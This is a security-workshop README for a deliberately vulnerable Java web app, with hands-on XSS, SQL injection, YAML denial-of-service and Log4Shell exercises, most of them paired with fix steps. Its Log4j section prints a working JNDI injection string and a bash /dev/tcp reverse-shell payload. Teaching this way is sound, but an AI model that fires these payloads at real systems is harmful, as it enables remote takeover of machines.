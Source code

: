 # DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on you local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

###Login
Username: admin
Password: foobar

## Assignment 1
### Cross site scripting

On the search page you can click on the username to show you more details
This page is vulnerable to a Cross site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/adduser/hint3.md)
- [Hint 4](hints/adduser/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/adduser/hint5.md)
- [Hint 6](hints/adduser/hint6.md)
- [Hint 7](hints/adduser/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Go to `import` to import new users using a yaml file
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a yaml file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username

### 4b startup the evil LDAP server
From the root of the project do the following

```java
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch netcat listening to port 9001
```java
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create serialize java payload containing a gadget chain that is available in the outdated apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your docker container connect tot the LDAP server on you local machine

Use below as the username with any given password 
```java
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001
Because you netcat is listening to this you now have shell access to that machine.
The terminal you started netcat in should now look like similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.







